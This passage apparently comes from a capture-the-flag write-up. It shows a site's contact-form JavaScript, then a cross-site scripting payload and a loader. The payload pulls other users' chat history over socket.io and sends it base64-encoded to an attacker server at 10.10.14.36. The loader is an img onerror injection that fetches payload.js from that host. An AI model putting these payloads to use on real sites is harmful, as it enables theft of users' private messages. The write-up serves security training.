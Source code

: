 **contact_us.js** is being used:

```js
// A function that handles the submit request of the user
const handleRequest = async () => {
    try {
        const first_name = await document.getElementById('first_name').value
        const last_name = await document.getElementById('last_name').value
        const message = await document.getElementById('message').value
        axios.post(`/user/api/contact_us`, {
            "first_name": first_name,
            "last_name": last_name,
            "message": message
        }).then((response) => {
            try {
            document.getElementById('first_name').value = ""
            document.getElementById('last_name').value = ""
            document.getElementById('message').value = ""
            // here we are gonna show the error
            document.getElementById('error').innerHTML = response.data.Message
            } catch (err) {
                alert("Something went Wrong")
            }
        })
    } catch {
        document.getElementById('error').innerHTML = "Something went Wrong"
    }
}
```

Based on **chat.js** and **contact_us.js**, we will create a malicous javascript payload that different user on the system will grab and run:

```js
const script= document.createElement('script');
script.src='/socket.io/socket.io.js';
document.head.appendChild(script);
script.addEventListener('load',function(){
    const res=axios.get(`/user/api/chat`);
    const socket=io('/',{withCredentials:true});
    socket.on('message',(my_message) => {
        fetch("http://10.10.14.36:9999/?d="+btoa(my_message))
    });
    socket.emit('client_message','history');
});
```

With our Python server running with **payload.js**, let's run the following XSS command that will download payload.js and execute it:

`<img src=x onerror="var script1=document.createElement('script'); script1.src='http://10.10.14.36:4444/payload.js';document.head.appendChild(script1);"/>`
